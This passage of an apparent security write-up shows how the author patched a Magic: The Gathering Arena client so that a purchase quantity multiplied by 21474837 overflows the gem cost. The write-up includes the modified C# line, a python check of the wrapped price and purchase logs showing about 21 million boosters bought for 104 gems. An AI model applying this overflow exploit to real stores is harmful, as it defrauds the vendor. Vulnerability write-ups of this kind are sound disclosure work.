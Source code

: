 ```cs

// Important Line 2 - Calculates cost of order
purchaseV2Req.currencyQty = (
    (client_PurchaseOption != null) ? client_PurchaseOption.IntegerCost : 0) * quantity * 21474837;

purchaseV2Req.customTokenId = customTokenId;
PurchaseV2Req request = purchaseV2Req;
...
}
```
And in case you're wondering why I didn't just recreate the purchase request in python or something, it is because the shop communication is over some sort of socket. It wasn't just a REST api and it didn't seem worth figuring out.

So with the binary patched, lets click our button and buy a pack...

 <video width="100%" controls>
 <source src="packs.mp4#t=0.001" type="video/mp4">
 </video>

Bada-bing, bada-boom. With a single click, over 20 million dollars worth of Magic cards has been deposited to my account (if you calculate the gems-to-dollars exchange rate, a conservative estimate is each pack costs a little over a dollar). 

How much did that put us back? Well, we can do the math ourselves:

```python
>>> (200 * 21474837) % 0xFFFFFFFF
105
```

`105` gems! Less than the cost of a single pack. We can check the purchase logs just to be sure though:

```json
{
 {
  "InventoryInfo": {
    "SeqId": 5,
    "Changes": [
      {
        "Source": "MercantilePurchase",
        "SourceId": "Packs-KHM-1-Listing",
        "InventoryGems": -104,
        "InventoryCustomTokens": {},
        "ArtStyles": [],
        "Avatars": [],
        "Sleeves": [],
        "Pets": [],
        "Emotes": [],
        "Decks": [],
        "DecksV2": [],
        "DeckCards": {},
        "Boosters": [
          {
            "CollationId": 100022,
            "SetCode": "KHM",
            "Count": 21474837
          }
        ],
    ...
```
